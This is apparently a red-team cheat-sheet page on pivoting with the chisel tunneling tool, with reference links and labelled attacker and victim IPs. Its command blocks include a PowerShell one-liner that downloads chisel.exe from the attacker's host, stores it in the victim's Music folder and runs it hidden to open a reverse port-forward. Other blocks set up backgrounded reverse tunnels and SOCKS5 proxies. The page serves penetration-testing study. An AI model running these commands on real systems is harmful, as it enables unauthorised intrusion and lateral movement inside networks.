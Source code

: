 

### chisel

- [https://github.com/jpillora/chisel/releases](https://github.com/jpillora/chisel/releases)
- [https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html#chisel](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html#chisel)
- [https://gist.github.com/freshwind2004/c827e742285cdb9542403ff021486bb0](https://gist.github.com/freshwind2004/c827e742285cdb9542403ff021486bb0)
- [https://github.com/zimnyaa/grpcssh](https://github.com/zimnyaa/grpcssh)

{% content-ref url="/redteam/maldev/golang.md#garble" %}
[golang.md](golang.md)
{% endcontent-ref %}

{% embed url="https://snovvcrash.github.io/2020/03/17/htb-reddish.html#chisel-socks" caption="HTB Reddish: Chisel SOCKS" %}

* Attacker's IP: `10.10.13.37`
* Victims's IP: `10.10.13.38`

Reverse local port `1111` (on Victim) to local port `2222` (on Attacker):

```
$ ./chisel server -p 8000 -v --reverse
PS > (New-Object Net.WebClient).DownloadFile("http://10.10.13.37/chisel.exe", "$env:userprofile\music\chisel.exe")
PS > Get-FileHash -Alg md5 "$env:userprofile\music\chisel.exe"
PS > Start-Process -NoNewWindow -FilePath "$env:userprofile\music\chisel.exe" -ArgumentList "client 10.10.13.37:8000 R:127.0.0.1:2222:127.0.0.1:1111"
or
Cmd > [cmd /c] start "" /b chisel.exe ...
```

Socks5 proxy in server mode:

```
alice@victim:~$ nohup ./chisel server -p 8000 --socks5 &
snovvcrash@kali:~$ ./chisel client 10.10.13.38:8000 [127.0.0.1:1080:]socks
```

Socks5 proxy in server mode when direct connection to Victim is not available (not relevant as Chisel supports socks5 in client mode now):

```
snovvcrash@kali:~$ ./chisel server -p 8000 --reverse
alice@victim:~$ nohup ./chisel client 10.10.13.37:8000 R:127.0.0.1:8001:127.0.0.1:8002 &
alice@victim:~$ nohup ./chisel server -v -p 8002 --socks5 &
snovvcrash@kali:~$ ./chisel client 127.0.0.1:8001 [127.0.0.1:1080:]socks
```

Socks5 proxy in client mode:

```
snovvcrash@kali:~$ ./chisel server -p 8000 --reverse --socks5 [--auth snovvcrash:'Passw0rd!']
alice@victim:~$ nohup ./chisel client [--fingerprint <BASE64_STRING>] [--auth snovvcrash:'Passw0rd!'] 10.10.13.37:8000 R:[127.0.0.1:1080:]socks &
```
